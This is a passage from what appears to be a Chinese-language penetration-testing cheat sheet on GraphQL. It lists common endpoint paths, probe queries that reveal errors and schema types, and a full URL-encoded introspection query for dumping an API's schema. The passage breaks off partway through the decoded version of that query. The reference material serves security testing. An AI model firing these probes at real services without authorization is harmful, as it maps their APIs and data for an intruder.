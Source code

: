 ### 常见的 GraphQL 端点

大多数情况下，graphql 位于 `/graphql` 或 `/graphiql` 端点。
更完整的列表可在 [danielmiessler/SecLists/graphql.txt](https://github.com/danielmiessler/SecLists/blob/fe2aa9e7b04b98d94432320d09b5987f39a17de8/Discovery/Web-Content/graphql.txt) 获取。

```ps1
/v1/explorer
/v1/graphiql
/graph
/graphql
/graphql/console/
/graphql.php
/graphiql
/graphiql.php
```

### 识别注入点

```js
example.com/graphql?query={__schema{types{name}}}
example.com/graphiql?query={__schema{types{name}}}
```

检查错误是否可见。

```javascript
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```

### 通过内省枚举数据库模式

用于转储数据库模式的 URL 编码查询。

```js
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```

用于转储数据库模式的 URL 解码查询。

```javascript
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
```